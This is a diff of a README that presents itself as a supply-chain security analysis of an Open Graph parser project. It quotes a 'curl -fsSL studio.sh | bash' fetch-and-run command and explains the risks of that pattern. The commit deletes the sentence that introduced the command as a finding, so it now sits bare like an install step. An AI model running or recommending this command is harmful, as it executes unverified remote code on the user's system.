

Before and after one commit to qapdex-maker/opengraph-node, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -6,8 +6,10 @@ Modern software supply chains increasingly rely on metadata parsers to display r
 
 ### 2. Introduction & Problem Statement
 The Open Graph Protocol enables websites to act as rich objects in social and collaborative graphs. Through standardized <meta> tags in the <head> of a page (e.g., og:title, og:image), parsers extract structured data.
-The Inherent Risk
+
+- The Inherent Risk
 Since parsers must process external, untrusted HTML content, they constitute a critical interface. If the Node/PHP libraries used for processing are insufficiently isolated or contain manipulated installation routines, the parsing tool mutates into the primary entry point for supply chain attacks.
+
 The analysis of the ecosystem surrounding the components under qapdex-maker.github.io/opengraph-node/ shows a critical vulnerability in the deployment and installation phase:
 
 ### 3. Structure of the Investigation Folder
@@ -16,7 +18,8 @@ ogp-demo.html / ogp-params.html: Demo pages for validating OGP parameters.
 probe-response.html: Logging of parser reactions to manipulated payloads.
  3.1 Technical Case Study: opengraph-node & studio.sh
  3.2 The studio.sh Vector
-In the main directory of the repository, the following instruction was identified in the installation documentation (README.md):
+
+
 ```
 curl -fsSL studio.sh | bash
 ```
@@ -24,6 +27,7 @@ curl -fsSL studio.sh | bash
 
 Security analysis of this pattern
 Unencrypted/Unverified Execution: The direct piping of a remote resource into the shell (bash) bypasses local security policies.
+
 Dynamic Payload Generation: The server behind studio.sh can inject malicious code based on the User-Agent or IP address of the requesting system (e.g., a CI/CD pipeline), which remains undetected during static code analysis.
 
 ### 4. Threat Modeling
````
